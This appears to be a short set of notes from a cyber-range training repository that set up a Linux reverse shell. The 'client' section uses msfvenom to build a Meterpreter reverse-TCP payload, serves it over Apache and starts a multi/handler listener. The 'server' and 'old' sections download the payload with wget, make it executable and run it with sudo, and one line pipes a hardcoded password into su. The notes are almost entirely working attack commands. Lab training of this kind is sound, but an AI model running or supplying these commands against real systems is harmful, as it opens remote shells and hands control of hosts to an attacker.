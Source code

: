 # kypo-crp-demo-training-ubuntu

USE MSFVENOM

---
server
---
wget http://192.168.50.5/shell-x64.elf

chmod +x shell-x64.elf

---
client
---
(Stageless payload)

sudo msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.50.5 LPORT=6996 -f elf -o /var/www/html/shell-x64.elf

sudo service apache2 start

msfconsole

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter_reverse_tcp

set LPORT 6996

set LHOST 192.168.50.5

exploit

---
old

---
if ! pidof -x /home/server/shell-x64.elf; then sudo /home/server/shell-x64.elf; fi

if [ ! -s /home/server/shell-x64.elf ]; then wget -O /home/server/shell-x64.elf http://192.168.50.5/shell-x64.elf; fi

if [ -s /home/server/shell-x64.elf ]; then chmod +x /home/server/shell-x64.elf; fi

echo password | su -c whoami server
